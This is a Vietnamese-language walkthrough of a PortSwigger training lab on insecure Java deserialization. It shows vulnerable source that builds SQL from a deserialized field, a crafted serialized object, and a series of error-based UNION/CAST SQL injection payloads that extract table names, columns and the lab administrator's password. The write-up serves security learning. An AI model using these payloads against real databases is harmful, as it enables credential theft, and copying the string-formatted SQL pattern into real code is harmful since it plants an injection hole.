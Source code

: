 # Target Goal: 

To solve the lab, gain access to the source code and use it to construct a gadget chain to obtain the administrator's password. Then, log in as the `administrator` and delete `carlos`.

Credentials: `wiener:peter`

# Recon: 

Sau khi login vào, ta sẽ có cookie được serialize bởi java:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/2ad560ff-0986-458a-9362-a0f1cf6379aa)

Bên `Site-map` cũng bắt được 1 path ẩn:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/2dad6dd7-bb6e-4479-bddd-d9ce059a34ac)

Lui xuống ta có 1 file có nội dung như sau:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/81175d68-0891-420d-af8b-d7405bb616be)

Ta rút được vài chú ý về src code và nó đang dùng `postgresql`:

```
public ProductTemplate(String id)
    {
        this.id = id;
    }

private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException
    {
        inputStream.defaultReadObject();

        ...
            String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
        ...
    }
```

Tiếp theo là tạo [Payload](https://github.com/vanniichan/Portswigger/tree/main/Insecure%20deserialization/Lab_8/Payload) thực hiện SQLi thông qua tham số `id`.

`ProductTemplate prodTemplate = new ProductTemplate("' UNION SELECT NULL -- ");`

Compile và thực thi code, ta nhận được serialized object.

![image](https://github.com/vanniichan/Portswigger/assets/112863484/33fcfced-4c97-45af-bd69-5c9ff53cb4bf)

Error trả về của postgresql báo UNION phải cùng số cột với câu query trước → Ta đã có thể đảm bảo rằng ta có thể SQLi thành công.

![image](https://github.com/vanniichan/Portswigger/assets/112863484/ff366856-b9dd-4794-a2db-7b74ca78605e)

Giờ mò đúng số cột (8) và tiếp tục tìm tên table:

```
' UNION SELECT NULL, NULL, NULL, CAST(table_name AS INTEGER), NULL, NULL, NULL, NULL FROM information_schema.tables --

///tận dụng CAST() để trả về nội dung các trường cần xem thông qua lỗi
```
![image](https://github.com/vanniichan/Portswigger/assets/112863484/a9012491-9b98-46cf-8508-931f8da13015)

Có table rồi thì giờ tìm cột:

```
' UNION SELECT NULL, NULL, NULL, CAST(column_name AS INTEGER), NULL, NULL, NULL, NULL FROM information_schema.columns WHERE table_name= 'users' --

///tận dụng CAST() để trả về nội dung các trường cần xem thông qua lỗi
```

![image](https://github.com/vanniichan/Portswigger/assets/112863484/15ce9978-797b-4d2d-acdb-ade62acaee1d)

Bây giờ chỉ cần tìm password với `username = administrator`:

```
' UNION SELECT NULL, NULL, NULL, CAST(password AS INTEGER), NULL, NULL, NULL, NULL FROM users WHERE username = 'administrator'-- 

```
![image](https://github.com/vanniichan/Portswigger/assets/112863484/9dc91a6c-a265-4ffc-af0b-a346eea868bd)

`administrator:5i91028uxwa4odk6dcay`

![image](https://github.com/vanniichan/Portswigger/assets/112863484/b43ab330-2ceb-4d3d-bd79-61b39cd0284f)

# Flag: 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/82f8e892-3cc7-4a65-a0ff-55463da4019b)
